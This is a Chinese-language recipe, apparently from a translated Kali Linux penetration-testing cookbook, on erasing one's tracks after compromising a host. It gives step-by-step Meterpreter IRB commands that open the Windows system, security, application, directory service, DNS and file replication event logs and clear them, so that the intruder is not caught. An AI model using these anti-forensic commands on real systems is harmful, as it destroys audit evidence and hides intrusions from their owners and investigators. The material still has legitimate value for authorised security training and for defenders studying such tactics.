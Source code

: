 这个秘籍中，我们会使用 Metasploit 来清除我们的踪迹。在黑进主机之后执行清理是个非常重要的步骤，因为你不想在经历所有麻烦来获得访问权限之后还被人查水表。幸运的是，Metasploit 拥有一种方式来非常简单地清除我们的踪迹。

### 准备

为了执行这个秘籍，我们需要：

+ 内部网络或互联网的连接。

+ 使用 Metasploit 框架的具有漏洞的主机。

### 操作步骤

需要执行步骤如下所示：

1.  让我们开始使用  Meterpreter shell 来清理我们的踪迹。你需要使用 Metasploit  攻击某个主机来获得  Meterpreter shell。你可以使用第六章的秘籍之一，来通过 Metasploit 获得目标主机的访问。一旦你通过 Metasploit 和 Meterpreter shell 获得了受害者的访问权限，等待你的 Meterpreter 显示提示符。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-cb/img/7-5-1.jpg)
    
2.  下面，我们需要运行 IRB，以便进行日志移除操作。我们打开帮助文件：

    ```
    irb
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-cb/img/7-5-2.jpg)
    
3.  下面，我们告诉 IRB 要移除哪个文件。下面是一个可用的选择：

    ```
    log = client.sys.eventlog.open('system') 
    log = client.sys.eventlog.open('security') 
    log = client.sys.eventlog.open('application') 
    log = client.sys.eventlog.open('directory service') 
    log = client.sys.eventlog.open('dns server') 
    log = client.sys.eventlog.open('file replication service')
    ```
    
4.  出于我们的目的，我们把它们都清理掉。你需要将这些一次键入：

    ```
    log = client.sys.eventlog.open('system') 
    log = client.sys.eventlog.open('security') 
    log = client.sys.eventlog.open('application') 
    log = client.sys.eventlog.open('directory service') 
    log = client.sys.eventlog.open('dns server') 
    log = client.sys.eventlog.open('file replication service')
    ```
    
5.  现在我们执行命令来清理日志文件：

    ```
    Log.clear 
    ```
    
6.  这就结束了。我们只用了这么少的命令就能清理我们的踪迹。
